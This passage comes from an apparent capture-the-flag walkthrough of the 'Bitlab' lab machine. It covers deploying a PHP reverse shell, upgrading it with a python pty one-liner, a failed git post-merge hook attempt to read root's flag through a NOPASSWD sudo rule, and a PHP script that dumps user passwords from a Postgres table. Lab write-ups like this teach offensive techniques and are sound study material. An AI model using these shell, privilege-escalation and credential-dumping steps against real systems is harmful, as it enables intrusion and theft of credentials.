 We can also deploy a reverse shell (from
`/usr/share/webshell/php/reverse-shell.php` for instance) and  get a shell as `www-data`
We can use `python -c 'import pty; pty.spawn("/bin/sh")'` in order to get a
interactive shell. We start enumerating the box and something interesting come
out: Our user as a `sudo` permission with no password for `/usr/bin/git pull`.

    :::text
    $ sudo -l
    sudo -l
    Matching Defaults entries for www-data on bitlab:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on bitlab:
        (root) NOPASSWD: /usr/bin/git pull

My first idea was to try `sudo /usr/bin/git pull --help` to get the pager as
root but that doesn't work. The second idea was to create a new git repository
and play with the post-merge hooks but I didn't had the right to create a new
git project. It seems like a dead end.

    :::text
    $ cd /var/www/html
    $ ls
    deployer
    help
    index.html
    profile
    $ cp -r profile /tmp/poi
    $ cd /tmp/poi
    $ cd .git/hooks/
    $ echo '#!/bin/bash' >> post-merge
    $ echo 'cat /root/root.txt' >> post-merge
    $ chmod +x post-merge
    $ sudo /usr/bin/git pull
    fatal: this operation must be run in a work tree


## Postgresql

By exploring more the gitlab we can found a "snippet" name "Postgresql" containing
the base of PHP script to connect to the database.

    :::PHP
    <?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection, "SELECT * FROM profiles");

We complete the script to display the database content.

    :::PHP
    <?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection, "SELECT * FROM profiles");
    $numrows = pg_numrows($result);
    for($i = 0; $i < $numrows; $i++)
    {
        $row = pg_fetch_array($result, $i);
        echo "id: " . $row[0];
        echo "user: " . $row[1];
        echo "pass: " . $row[2];
    }
    ?>
